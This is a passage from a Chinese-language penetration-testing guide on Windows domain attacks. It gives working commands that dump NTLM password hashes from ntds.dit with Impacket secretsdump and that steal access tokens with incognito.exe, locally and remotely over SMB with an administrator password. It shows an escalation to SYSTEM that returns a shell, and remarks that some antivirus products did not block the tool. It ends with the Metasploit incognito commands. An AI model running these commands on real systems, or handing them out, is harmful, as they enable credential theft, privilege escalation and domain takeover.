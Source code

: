**2.Impacket**

项目地址：https://github.com/SecureAuthCorp/impacket

因为 Kali 的 python 环境安装得比较全，所以使用 Kali 来解 Hash

```bash
python secretsdump.py -ntds /home/workspace/hash/ntds.dit -system /home/workspace/hash/sys.hiv LOCAL > /home/workspace/hash/hash.txt
```

使用 Ntdsutil、Vssadmin 等卷影拷贝工具时，需要先开启 Volume Shadow Copy Service 服务

## 4.4、token窃取

可根据权限名或者进程名进行token窃取，利用token窃取可以进行nt提权、普通降权、域（管）用户权限获取等操作。

**exe**

incognito.exe可用于有杀毒、不出网、防火墙限制等无法cs或msf上线情况。

下载incognito.exe： 

https://labs.mwrinfosecurity.com/assets/BlogFiles/incognito2.zip

相关文档：

http://labs.mwrinfosecurity.com/assets/142/mwri_security-implications-of-windows-access-tokens_2008-04-14.pdf

本机列举token：

incognito.exe list_tokens -u



大家大多都讨论的是登录到机器上使用incognito.exe窃取token，其实还可以远程连接其他计算机进行token窃取，incognito.exe第一次使用会通过smb把incognito_service.exe放到目标服务器上（测试中360，火绒，电脑管家没有拦截incognito.exe和incognito_service.exe），然后才进行incognito.exe+incognito_service.exe方式进行token窃取，执行cmd.exe可返回来cmd shell。

远程列举token：

incognito.exe -h 172.16.58.143 -u administrator -p "QWEqwe123!@# " list_tokens -u

提权到nt：

.\incognito.exe -h 172.16.58.143 -u administrator -p "QWEqwe123!@# " execute -c "NT AUTHORITY\SYSTEM" cmd.exe

同理可用来获取存在的域用户的token权限。



**msf**

msf中的incognito模块可用于meterpreter上线后的机器。

在msf中，可使用incognito实现token窃取

加载incognito：load incognito

列举token：list_tokens -u

查看当前token：getuid
